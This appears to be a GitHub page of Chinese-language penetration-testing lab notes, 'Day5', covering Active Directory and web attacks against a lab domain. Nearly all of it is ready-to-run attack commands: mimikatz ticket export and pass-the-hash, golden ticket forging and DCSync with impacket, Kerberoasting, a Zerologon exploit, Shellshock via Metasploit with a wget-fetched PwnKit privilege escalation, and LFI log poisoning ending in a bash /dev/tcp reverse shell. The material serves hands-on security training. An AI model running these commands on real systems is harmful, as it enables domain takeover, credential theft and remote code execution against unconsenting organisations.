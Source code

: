 Day5
===
ADRecon
---
    AD由三個部分組成
    目錄分割區
    設定檔
    Schema資料庫結構
![image](https://github.com/user-attachments/assets/5f241d92-cbbd-4673-9652-2120ee57b018)
![image](https://github.com/user-attachments/assets/2a14572d-8f90-4533-835c-513a9945791e)

    蒐集AD資訊，下載ADRecon工具
[ADRecon工具](https://github.com/adrecon/ADRecon)
![image](https://github.com/user-attachments/assets/b3735d89-1269-4271-a994-8b2bb5b57117)

    執行powershell&ADRecon.ps1
    powershell.exe  -nop –ep bypass
    -nop:PowerShell 在啟動時不讀取任何配置文件，包括使用者配置文件。
    -ep: -ExecutionPolicy Bypass 的簡寫
    > in Domain
    ./adrecon.ps1
    > OR Not in Domain
    ./adrecon.ps1 -DomainController 192.168.177.19 –OutputType ALL -Credential lpt.com\cpent
    > OR
    ./adrecon.ps1 -DomainController 192.168.177.19 –OutputType HTML -Credential lpt.com\cpent
![image](https://github.com/user-attachments/assets/63813ab0-0e04-42ef-8f18-86b36605c65a)
![image](https://github.com/user-attachments/assets/12ddffa2-2bf4-4b03-871f-b53ef80c8687)

Export Kerberos Tickets
---
    使用mimikatz工具
    mimikatz
    privilege::debug
    sekurlsa::tickets /export
![image](https://github.com/user-attachments/assets/325d960d-dbe1-4dd5-8533-3b9b4fa6ccc9)
![image](https://github.com/user-attachments/assets/cf574c3d-244b-4dfa-a7aa-77905f6e0438)

Pass the Ticket
---
    取得DC TGT拿到另外一台機器匯入TGT，尚未匯入前無法訪問DC目錄
![image](https://github.com/user-attachments/assets/c244175e-bf04-4d54-a842-4f2171abf30e)
![image](https://github.com/user-attachments/assets/e83a042a-4223-4460-94ca-d4426c83289c)

    匯入TGT&確認票卷
![image](https://github.com/user-attachments/assets/4a8cfc5b-0cb2-4156-a80b-6cd23f8faf35)
![image](https://github.com/user-attachments/assets/57868c45-8eb9-4959-aa94-31a1371981d5)

    可瀏覽DC目錄
![image](https://github.com/user-attachments/assets/1495a602-6c57-4ff2-a1a8-67af5b4b1227)

Golden Ticket Attack
---
    /etc/hosts新增IP&域名
![image](https://github.com/user-attachments/assets/cd32ab86-fca6-447e-bda6-ede7ce144113)

    取得administrator的krbtgt的NTLM hash
    impacket-secretsdump 'administrator:Pa$$w0rd'@192.168.177.19    
![image](https://github.com/user-attachments/assets/164b2a01-4163-4cef-a8db-4f4b19f663a5)

    取得administrator的SID
    python3 /opt/impacket/examples/lookupsid.py 'administrator:Pa$$w0rd'@192.168.177.19 0
![image](https://github.com/user-attachments/assets/3ec80a6d-4cce-406a-84af-28f25dff7e05)

    簽一張TGT
    python3 /opt/impacket/examples/ticketer.py -nthash <ntlm_hash> -domain-sid <sid> -domain lpt.com evil
![image](https://github.com/user-attachments/assets/1e063263-9b10-4248-8545-09fb0828fe89)

    設定環境變數
    export KRB5CCNAME=~/evil.ccache
![image](https://github.com/user-attachments/assets/dd1603e6-c95a-48ae-8f2f-cfbf5f806cb8)

    執行RCE
    psexec.py lpt.com/evil@server2019.lpt.com -k -no-pass -dc-ip 192.168.177.19
![image](https://github.com/user-attachments/assets/afa4eab9-d9e7-4603-8c33-c7708c096562)

Kerberoasting
---
    Register service in AD
    setspn -s http/lpt.com user-one
![image](https://github.com/user-attachments/assets/fbca5919-1e5d-4a1f-9fff-c59e2e07dcd5)
  
    取得在DC上註冊的服務&密碼HASH
    GetUserSPNs.py 'lpt.com/cpent:Pa$$w0rd' -dc-ip 192.168.177.19 -request -outputfile kerberoast.txt
![image](https://github.com/user-attachments/assets/f4ca12aa-9f57-4d1d-a892-6f0576e95622)
![image](https://github.com/user-attachments/assets/eceb82db-8e93-47f4-a09f-5f5c7a76c27b)

    使用john破解user-one密碼
![image](https://github.com/user-attachments/assets/cad67771-346f-4b44-83af-8625d293407f)

Zerologon
---
    下載新版mimikatz
 [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919)
![image](https://github.com/user-attachments/assets/c1213384-fed5-4171-ad7b-a0fd068dc5ad)

    執行mimikatz並dump
    lsadump::Zerologon /target:192.168.177.19 /account:server2019$ /null /ntlm /exploit
    lsadump::postzerologon /target:192.168.177.19 /account:server2019$
![image](https://github.com/user-attachments/assets/07bd99c9-3e5b-417a-b4ce-33f5628990bd)
dcsync
---
    lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:administrator
    lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:krbtgt
![image](https://github.com/user-attachments/assets/bf3b892f-5ffd-4cff-a30c-fb63a3ff9ad6)

    目前連到不到DC目錄
![image](https://github.com/user-attachments/assets/a610b8aa-ff61-405c-92c0-cded3b11437a)

PtH
---
    privilege::debug
    sekurlsa::pth /user:Administrator /domain:server2019.lpt.com /ntlm:<HASH>
![image](https://github.com/user-attachments/assets/1c8478f2-e11e-45ed-803f-27cb5c239fd7)
![image](https://github.com/user-attachments/assets/b00c5da9-30d3-4d09-82f2-23fa015fb745)

PtT
---
    取得krbtgt的NTLM HASH&SID
    kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ptt
    misc::cmd
    klist add_bind lpt.com server2019.lpt.com 
    kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ticket:evil.tck
![image](https://github.com/user-attachments/assets/24f1ebad-a84c-4a3a-a530-a711c97a9dfe)

SHELLSHOCK
---
    Preparation on 192.168.0.24:
    cd /usr/lib/cgi-bin/
    sudo cp shellshock keygen
![image](https://github.com/user-attachments/assets/54fc6039-d50f-41fd-a041-3550317af3b4)

    Parrot:
    dirb http://192.168.0.24
    dirb http://192.168.0.24/cgi-bin
![image](https://github.com/user-attachments/assets/f204f99d-7037-4c23-a3ba-4f2a83d00deb)
![image](https://github.com/user-attachments/assets/c6e7b513-24e3-421d-9769-fbd7892ae987)

    msfconsole
    search shellshock
    use exploit/multi/http/apache_mod_cgi_bash_env_exec
    show options
    set RHOSTS 192.168.0.24
    set RPORT 80
    set TARGETURI /cgi-bin/keygen
    shell
    script /dev/null -qc /bin/bash
    利用PwnKit提權
    python3 -m http.server 8888
    wget http://192.168.0.18:8888/PwnKit32
    chmod +x PwnKit32
    ./PwnKit32
[PwnKit](https://github.com/ly4k/PwnKit)
![image](https://github.com/user-attachments/assets/9242b59d-f2a8-4ee5-95d7-43a14b314eaf)
![image](https://github.com/user-attachments/assets/f5aadc76-536d-4003-b29f-13dc4ea1b0a9)
![image](https://github.com/user-attachments/assets/e6b7dfcf-ba6c-4908-afab-b2f93be10dfb)


LFI to RCE
---
    ssh administrator@192.168.0.10
    toor
    echo '<?php phpinfo(); ?>' >> /var/www/html/info.php
    echo '<?php include($_GET["file"]); ?>' >> /var/www/html/inc.php
    # Parrot:
    http://192.168.0.10/inc.php?file=info.php
![image](https://github.com/user-attachments/assets/28387bd5-ca33-4eaf-8dcf-29e56f688407)
![image](https://github.com/user-attachments/assets/a8db145f-bb93-4ce9-946f-243730f1366f)

    chmod 775 -R /var/log/apache2
    http://192.168.0.10/inc.php?file=/var/log/apache2/access.log
![image](https://github.com/user-attachments/assets/47c38770-b16b-4a50-b8d2-99d7971ef85e)
![image](https://github.com/user-attachments/assets/81448441-ee04-4833-9858-d7ec699f282c)

    變更user-agent
    <?php system($_GET[1])?>
    curl 'http://192.168.0.10/inc.php?f=/var/log/apache2/access.log&1=id'
![image](https://github.com/user-attachments/assets/adfbbf8e-39f5-4a64-9de4-791084eaffe3)
![image](https://github.com/user-attachments/assets/a75a0457-b4ef-4508-88ec-be8720d28772)
![image](https://github.com/user-attachments/assets/28595885-9dda-4a9e-a633-bc8f915d024f)

    反向shell
    nc -lvnp 1234
    curl -G 'http://192.168.0.14/inc.php' --data f=/var/log/apache2/access.log --data-urlencode "1=bash -c 'bash -i /dev/tcp/192.168.0.18/1234 0&<1 2>&1'"
![image](https://github.com/user-attachments/assets/13bc7ba4-4cd2-4610-bedd-4fd8be24ae8c)
![image](https://github.com/user-attachments/assets/09adbbb8-f97d-495f-b82f-4b71be0a551f)

    
